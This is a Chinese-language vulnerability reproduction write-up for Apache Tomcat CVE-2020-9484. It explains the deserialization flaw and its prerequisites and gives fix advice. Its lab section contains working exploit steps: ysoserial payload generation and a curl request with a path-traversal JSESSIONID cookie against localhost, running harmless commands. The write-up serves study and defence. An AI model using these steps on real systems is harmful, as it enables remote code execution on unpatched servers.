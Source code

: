 # CVE-2020-9484:Apache Tomcat代码问题漏洞
## 一、漏洞介绍
北京时间2020年05月20日，Apache官方发布了 Apache Tomcat 远程代码执行 的风险通告，该漏洞编号为 CVE-2020-9484。

Apache Tomcat 是一个开放源代码、运行servlet和JSP Web应用软件的基于Java的Web应用软件容器。当Tomcat使用了自带session同步功能时，使用不安全的配置（没有使用EncryptInterceptor）会存在反序列化漏洞，攻击者通过精心构造的数据包， 可以对使用了自带session同步功能的Tomcat服务器进行攻击。

这次是由于错误配置和 org.apache.catalina.session.FileStore 的 LFI 和反序列化漏洞引起的 RCE。

当配置了 org.apache.catalina.session.PersistentManager 并且使用 org.apache.catalina.session.FileStore 来储存 session 时, 用户可以通过 <strong><font color='red'>org.apache.catalina.session.FileStore 的一个 LFI 漏洞来读取服务器上任意以 .session结尾的文件。然后通过反序列化来运行 .session 文件。</font></strong>


默认情况是使用 org.apache.catalina.session.StandardManager, 将 session储存到内存，而 PersistentManager 会将不常用的 session swap out, 从而减少内存占用。

参考：https://www.safedog.cn/news.html?id=4456

## 二、影响版本
Apache Tomcat: 10.0.0-M1 to 10.0.0-M4

Apache Tomcat: 9.0.0.M1 to 9.0.34

Apache Tomcat: 8.5.0 to 8.5.54

Apache Tomcat: 7.0.0 to 7.0.103

## 三、先决条件
1. PersistentManager 使用了FileStore
2. 攻击者能够上传带有任意内容的文件，可以控制文件名并知道上传文件的位置
3. 类路径中有一些小工具可用于Java反序列化攻击，如groovy-2.3.9（创建文件）、CommonsCollections2（弹出计算器）

## 四、漏洞复现
需要环境：虚拟机、kali系统

安装tomcat需要java环境，实验时请自行安装

#### 下载安装tomcat，安装在/usr/local/tomcat
```bash
cd /usr/local
mkdir tomcat
wget https://repo1.maven.org/maven2/org/apache/tomcat/tomcat/10.0.0-M4/tomcat-10.0.0-M4.tar.gz
tar -zxvf tomcat-10.0.0-M4.tar.gz
```
#### 修改配置文件
注：若配置文件中无此配置，则说明不存在此漏洞
```bash
cd apache-tomcat-10.0.0-M4/conf
vim context.xml
```
添加下列配置
```bash
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>
</Manager>
```
![1](./images/1.png)
#### 下载反序列化相关工具
1. groovy
`wget https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar`
将groovy-2.3.9.jar 放入/usr/local/tomcat/lib目录下（ysoserial使用Groovy1命令需要的插件）
![2](./images/2.png)
2. ysoserial
`git clone https://github.com/frohoff/ysoserial.git`
#### 启动tomcat
```bash
cd ~/apache-tomcat-10.0.0-M4/bin
./catalina.sh start
```
![3](./images/4.png)
#### 攻击过程
1. 生成payload
`java -jar ysoserial.jar Groovy1 "touch /tmp/2333" > /tmp/test.session`
![4](./images/3.png)
2. 使用test.session
在浏览器抓取首页的包添加`Cookie: JSESSIONID={ ../../../../../tmp/test }`
{}中为test.session路径

目标是在服务器上执行命令`touch /tmp/2333`，<font color='red'>假设 .session文件已经被上传到服务器的已知位置。</font>

 linux

`curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../tmp/test'`

![5](./images/5.png)
此处网上复现皆为127.0.0.1，原因是<font color='red'>这里主要是 FileStore 的 LFI 漏洞可以反序列化任意路径上的 .session 文件, 如果同时存在 文件上传漏洞的话就是 RCE 了</font>

#### CommonsCollections2
CommonsCollections2不用下载
`java -jar ysoserial.jar CommonsCollections2  "{ /Applications/Calculator.app/Contents/MacOS/Calculator }" > /tmp/test2.session`
![6](./images/6.png)
## 五、修复建议
修复方式就是升级,或者配置WAF，过滤掉../之类的字符串，或者不使用 FileStore
## 六、参考文章
1. https://www.freebuf.com/articles/web/242782.html
2. https://www.safedog.cn/news.html?id=4456
3. https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/
4. https://y4er.com/posts/cve-2020-9484-tomcat-session-rce/#%E9%85%8D%E7%BD%AEtomcat%E8%B0%83%E8%AF%95%E7%8E%AF%E5%A2%83
5. https://github.com/masahiro331/CVE-2020-9484   docker环境
